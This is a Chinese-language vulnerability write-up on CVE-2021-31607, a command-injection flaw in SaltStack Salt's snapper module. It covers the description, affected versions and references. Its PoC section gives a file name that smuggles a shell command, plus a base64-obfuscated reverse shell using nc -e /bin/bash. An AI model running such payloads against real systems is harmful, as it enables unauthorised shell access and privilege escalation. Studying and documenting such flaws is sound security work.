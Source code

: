 # SaltStack Minion 命令注入漏洞 CVE-2021-31607

## 漏洞描述

2021年4月28日，深信服安全团队监测到一则Salt组件存在 SaltStack Minion 命令注入漏洞的信息，漏洞编号：CVE-2021-31607，漏洞威胁等级：中危。

该漏洞是由于在SaltStack Salt 2016.9至3002.6中，快照程序模块中存在一个命令注入漏洞，攻击者可利用该漏洞获得权限的情况下，对一个分支系统的本地特权进行升级。

参考阅读：

* https://sec.stealthcopter.com/saltstack-snapper-minion-privledge-escaltion/
* https://nvd.nist.gov/vuln/detail/CVE-2021-31607
* https://nox.qianxin.com/vulnerability/detail/97347

## 漏洞影响

```
2016.9 ≤ SaltStack Salt ≤ 3002.6
```

## 漏洞复现

利用条件 : 

1. 用户认证：需要用户认证
2. 前置条件：配置了快照程序，使用snapper模块
3. 触发方式：本地

poc：

```
echo hi > '$(touch HACKED).txt'
反弹shell：
echo hi > '$(echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDQ0|base64 -d|sh -i).txt'
```


